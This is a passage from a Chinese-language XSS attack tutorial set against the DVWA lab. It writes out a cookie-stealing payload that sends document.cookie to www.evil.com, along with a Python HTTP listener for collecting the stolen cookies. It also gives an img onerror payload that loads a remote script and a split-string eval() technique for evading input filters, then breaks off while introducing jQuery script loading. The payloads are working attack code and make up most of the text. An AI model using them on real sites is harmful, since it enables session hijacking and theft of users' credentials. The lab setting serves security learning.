 设置图片的src属性：  
  
img.src = "http://www.evil.com/log?" + escape(document.cookie);  
  
这里，将img元素的src属性设置为http://www.evil.com/log?后跟当前文档的cookie信息。document.cookie返回当前页面的所有cookie，格式为键值对的字符串。escape函数用于对cookie字符串进行编码，确保特殊字符在URL中被正确传输。  
  
将<img>元素添加到文档中：  
  
document.body.appendChild(img);  
  
这行代码将创建的img元素添加到当前文档的<body>中，使浏览器开始加载该图片。由于src指向包含cookie信息的URL，浏览器会向http://www.evil.com/log发送一个带有cookie数据的HTTP请求。  
###### 获取cookie:  
  
在kali终端输入sudo python -mSimple HTTPServer80 打开一个小型web服务，登陆dvwa后台输入xss代码，插入之后，受害者访问该网页就会把它的cookie  
  
发送到kali的web服务上。查看日志就能得到cookie  
###### 用<img>元素加载外部JavaScript 文件<img src='' onerror=  
  
document.body.appendChild(document.createElement('script')).src='//192.168.0.110/xss.js'>  
###### 字符拼接加载外部JavaScript 文件  
  
当程序对输入的字符有限制的时候，可以考虑将js代码先拆分多个部分上传，然后在浏览器解析的时候拼接，最后用eval()函数将拼接好的代码执行。  
  
<script>z='document.'</script>  
  
<script>z=z+'write("'</script>  
  
<script>z=z+'<script'</script>  
  
<script>z=z+' src=ht'</script>  
  
<script>z=z+'tp://www.'</script>  
  
<script>z=z+'xsstools'</script>  
  
<script>z=z+'.com/a'</script>  
  
<script>z=z+'mER></sc'</script>  
  
<script>z=z+'ript>")'</script>  
  
<script>eval(z)</script>  
  
有的情况要用/**/注释不需要的代码。  
  
上面的多个字符串在变量z中最终拼接成：  
  
document.write("<script src=http://www.xsstools.com/amER></script>")  
  
然后将拼接好的字符串作为js代码执行：  
  
<script>eval(z)</script>  
  
这行代码尝试通过 document.write 动态插入一个 <script> 标签，该标签的 src 属性指向一个外部 JavaScript 文件。  
###### 使用jQuery加载外部javascript代码  
  
jQuery 是由 John Resig 在 2006 年发布的开源 JavaScript 库。它的核心理念是 “Write Less, Do More”（写得更少，做得更多），通过提供简洁的语法和高效的工具，帮助开发者快速实现复杂的前端功能。jQuery 提供了一套简单易用的 API，用于操作 HTML 文档。  
  
如果浏览器加载了jQuery库那么就可以使用这个库的语法加载外部js文件。下面这行代码就是使用jQuery 的 $.getScript() 方法来动态加载并执行一个外部 JavaScript 文件。  
  